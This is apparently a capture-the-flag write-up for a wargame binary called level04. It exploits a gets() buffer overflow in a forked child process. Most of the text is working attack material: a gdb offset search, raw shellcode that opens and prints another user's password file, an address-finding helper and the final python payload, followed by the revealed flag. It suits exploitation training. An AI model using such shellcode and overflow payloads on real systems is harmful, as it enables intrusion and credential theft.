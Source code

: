 # Level04

This program has an unprotected `gets()` vunerable to a **buffer overflow attack** and **shellcode** redirection. However most of the execution takes place in a child process started with an early `fork()`.		

In order to debug, some additional options have to be used to follow the child process:		
- ltrace -f		
- (gdb) set follow-fork-mode child		

Using a buffer overflow pattern generator we can find the `EIP backup` offset		
```bash
gdb level04
(gdb) set follow-fork-mode child
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/users/level04/level04
[New process 2067]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 2067]
0x41326641 in ?? ()
```
`0x41326641` -> Offset: 156

A `ptrace()` call checks for use of `exec()` so we have to use a **shellcode** without it. This version does `open` `read` and `write` with the path specified at the end.			
We can store our **shellcode** in an environment variable:
```bash
export SHELLCODE=$'\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass'
```

Next we must find the address of our shellcode using a simple program:
```c
//getenv.c:

#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[]) {
    printf("%p\n", getenv("SHELLCODE"));
}
```
```bash
gcc -m32 getenv.c
./a.out
0xffffd87a

python -c "print 156 * 'a' + '\xff\xff\xd8\x7a'[::-1]" | ./level04
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
